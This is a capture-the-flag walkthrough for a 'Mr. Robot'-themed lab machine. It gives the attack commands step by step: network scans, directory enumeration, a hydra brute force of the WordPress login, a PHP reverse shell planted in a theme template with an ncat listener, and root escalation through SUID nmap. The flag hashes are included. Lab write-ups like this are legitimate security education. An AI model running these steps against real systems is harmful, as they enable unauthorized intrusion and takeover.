 We begin enumeration by scanning our net work with nmap
```
nmap -sV -sP 10.0.0.93/24
```
We find the target ip and do another nmap scan on the target box to find open ports:

```
nmap -sV -sC -vv -T4 10.0.0.48
```
We then enumerate with gobuster and see if there is a robots file and we find the first key:

key1: ```073403c8a58a1f80d943455fb30724b9```

We also find what looks to be a password list listed in the robots.txt file.

```
gobuster dir -u http://10.0.0.48/ -w=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
Continuing with enumeration we begin to look at the websites looking for user credentials and any clues.
We find a wordpress admin site and decide to use ```burpsuite``` to intercept the request. Since this is a machine based on the series mr.robot we are going to use hydra and combine the name ```Elliot``` who is the main character of the series and attempt to brute force the wordpress log in form. We find the username and password for the wp site.
```Elliot ER28-0652```. We sorted the list before doing a wp-scan: ```sort fsocity.dic| uniq > fsoc.dic ```.
commands used: 
```
hydra -L fsocity.dic -p 123  10.0.0.48 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username"
```

```
 wpscan -t 10000 --url http://10.0.0.48 --usernames Elliot --passwords fsoc.dic
```
Once in the site we go to appeareans >> edit & and the php revershell to the 404.php template open up a ncat listener on port 4444 ```nc -nlvp 4444``` and gain acces as daemon of which we then find the robot user and a file with an md5 hash that is theu sers password and log in as that user.

key 2: ```822c73956184f694993bede3eb39f959```

We then run the command:
```
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```
to find weak binaries and found nmap installed on the server.

when then ran ```nmap --interactive``` ```!sh``` and gained a root shell

key3: ```04787ddef27c3dee1ee161b21670b4e4```

system has been rooted action is no longer required.
